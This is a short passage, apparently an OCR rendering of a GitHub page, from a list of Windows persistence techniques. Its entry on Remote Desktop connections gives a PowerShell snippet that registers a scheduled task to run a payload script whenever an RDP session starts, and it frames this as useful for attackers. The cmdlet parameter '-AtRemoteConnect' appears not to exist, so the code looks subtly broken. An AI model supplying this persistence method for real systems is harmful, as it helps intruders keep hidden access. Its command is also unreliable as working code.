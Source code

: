 #### 2Trigger on Remote Desktop Connection
   - Description: This trigger activates when a Remote Desktop session is initiated, allowing payload execution specifically during remote connections.
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\path\to\rdp_payload.ps1"
     $trigger = New-ScheduledTaskTrigger -AtRemoteConnect
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "RDPConnectTask" -Description "Trigger on RDP Connection"
     ```
   - Use Case: This persistence mechanism is useful for attackers who target systems through RDP, triggering their payload as soon as a remote session is established.